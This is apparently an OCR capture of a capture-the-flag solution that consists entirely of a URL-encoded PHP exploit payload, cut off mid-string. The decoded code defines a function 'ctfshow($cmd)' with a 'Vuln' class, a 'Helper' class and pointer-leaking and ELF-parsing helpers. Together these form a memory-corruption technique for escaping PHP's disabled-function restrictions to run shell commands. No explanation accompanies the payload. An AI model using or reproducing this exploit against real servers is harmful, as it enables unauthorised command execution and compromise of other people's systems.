```php
c=%3F%3E%3C%3Fphp%0A%0Afunction%20ctfshow(%24cmd)%20%7B%0A%20%20%20%20global%20%24abc%2C%20%24helper%2C%20%24backtrace%3B%0A%0A%20%20%20%20class%20Vuln%20%7B%0A%20%20%20%20%20%20%20%20public%20%24a%3B%0A%20%20%20%20%20%20%20%20public%20function%20__destruct()%20%7B%20%0A%20%20%20%20%20%20%20%20%20%20%20%20global%20%24backtrace%3B%20%0A%20%20%20%20%20%20%20%20%20%20%20%20unset(%24this-%3Ea)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24backtrace%20%3D%20(new%20Exception)-%3EgetTrace()%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20if(!isset(%24backtrace%5B1%5D%5B'args'%5D))%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%24backtrace%20%3D%20debug_backtrace()%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%7D%0A%0A%20%20%20%20class%20Helper%20%7B%0A%20%20%20%20%20%20%20%20public%20%24a%2C%20%24b%2C%20%24c%2C%20%24d%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20str2ptr(%26%24str%2C%20%24p%20%3D%200%2C%20%24s%20%3D%208)%20%7B%0A%20%20%20%20%20%20%20%20%24address%20%3D%200%3B%0A%20%20%20%20%20%20%20%20for(%24j%20%3D%20%24s-1%3B%20%24j%20%3E%3D%200%3B%20%24j--)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24address%20%3C%3C%3D%208%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24address%20%7C%3D%20ord(%24str%5B%24p%2B%24j%5D)%3B%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20return%20%24address%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20ptr2str(%24ptr%2C%20%24m%20%3D%208)%20%7B%0A%20%20%20%20%20%20%20%20%24out%20%3D%20%22%22%3B%0A%20%20%20%20%20%20%20%20for%20(%24i%3D0%3B%20%24i%20%3C%20%24m%3B%20%24i%2B%2B)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24out%20.%3D%20sprintf(%22%25c%22%2C(%24ptr%20%26%200xff))%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24ptr%20%3E%3E%3D%208%3B%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20return%20%24out%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20write(%26%24str%2C%20%24p%2C%20%24v%2C%20%24n%20%3D%208)%20%7B%0A%20%20%20%20%20%20%20%20%24i%20%3D%200%3B%0A%20%20%20%20%20%20%20%20for(%24i%20%3D%200%3B%20%24i%20%3C%20%24n%3B%20%24i%2B%2B)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24str%5B%24p%20%2B%20%24i%5D%20%3D%20sprintf(%22%25c%22%2C(%24v%20%26%200xff))%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24v%20%3E%3E%3D%208%3B%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20leak(%24addr%2C%20%24p%20%3D%200%2C%20%24s%20%3D%208)%20%7B%0A%20%20%20%20%20%20%20%20global%20%24abc%2C%20%24helper%3B%0A%20%20%20%20%20%20%20%20write(%24abc%2C%200x68%2C%20%24addr%20%2B%20%24p%20-%200x10)%3B%0A%20%20%20%20%20%20%20%20%24leak%20%3D%20strlen(%24helper-%3Ea)%3B%0A%20%20%20%20%20%20%20%20if(%24s%20!%3D%208)%20%7B%20%24leak%20%25%3D%202%20%3C%3C%20(%24s%20*%208)%20-%201%3B%20%7D%0A%20%20%20%20%20%20%20%20return%20%24leak%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20parse_elf(%24base)%20%7B%0A%20%20%20%20%20%20%20%20%24e_type%20%3D%20leak(%24base%2C%200x10%2C%202)%3B%0A%0A%20%20%20%20%20%20%20%20%24e_phoff%20%3D%20leak(%24base%2C%200x20)%3B%0A%20%20%20%20%20%20%20%20%24e_phentsize%20%3D%20leak(%24base%2C%200x36%2C%202)%3B%0A%20%20%20%20%20%20%20%20%24e_phnum%20%3D%20leak(%24base%2C%200x38%2C%202)%3B%0A%0A%20%20%20%20%20%20%20%20for(%24i%20%3D%200%3B%20%24i%20%3C%20%24e_phnum%3B%20%24i%2B%2B)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24header%20%3D%20%24base%20%2B%20%24e_phoff%20%2B%20%24i%20*%20%24e_phentsize%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24p_type%20%20%3D%20leak(%24header%2C%200%2C%204)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24p_flags%20%3D%20leak(%24header%2C%204%2C%204)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24p_vaddr%20%3D%20leak(%24header%2C%200x10)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24p_memsz%20%3D%20leak(%24header%2C%200x28)%3B%0A%0A%20%20%20%20%20%20%20%20%20%20%20%20if(%24p_type%20%3D%3D%201%20%26%26%20%24p_flags%20%3D%3D%206)%20%7B%20%0A%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%24data_addr%20%3D%20%24e_type%20%3D%3D%202%20%3F%20%24p_vaddr%20%3A%20%24base%20%2B%20%24p_vaddr%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%24data_size%20%3D%20%24p_memsz%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%20else%20if(%24p_type%20%3D%3D%201%20%26%26%20%24p_flags%20%3D%3D%205)%20%7B%20%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%24text_size%20%3D%20%24p_memsz%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20%7D%0A%0A%20%20%20%20%20%20%20%20if(!%24data_addr%20%7C%7C%20!%24text_size%20%7C%7C%20!%24data_size)%0A%20%20%20%20%20%20%20%20%20%20%20%20return%20false%3B%0A%0A%20%20%20%20%20%20%20%20return%20%5B%24data_addr%2C%20%24text_size%2C%20%24data_size%5D%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20get_basic_funcs(%24base%2C%20%24elf)%20%7B%0A%20%20%20%20%20%20%20%20list(%24data_addr%2C%20%24text_size%2C%20%24data_size)%20%3D%20%24elf%3B%0A%20%20%20%20%20%20%20%20for(%24i%20%3D%200%3B%20%24i%20%3C%20%24data_size%20%2F%208%3B%20%24i%2B%2B)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24leak%20%3D%20leak(%24data_addr%2C%20%24i%20*%208)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20if(%24leak%20-%20%24base%20%3E%200%20%26%26%20%24leak%20-%20%24base%20%3C%20%24data_addr%20-%20%24base)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%24deref%20%3D%20leak(%24leak)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20if(%24deref%20!%3D%200x746e6174736e6f63)%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20continue%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%20else%20continue%3B%0A%0A%20%20%20%20%20%20%20%20%20%20%20%20%24leak%20%3D%20leak(%24data_addr%2C%20(%24i%20%2B%204)%20*%208)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20if(%24leak%20-%20%24base%20%3E%200%20%26%26%20%24leak%20-%20%24base%20%3C%20%24data_addr%20-%20%24base)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%24deref%20%3D%20leak(%24leak)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%0A%20%20%20%20%20%20%20%20%2
```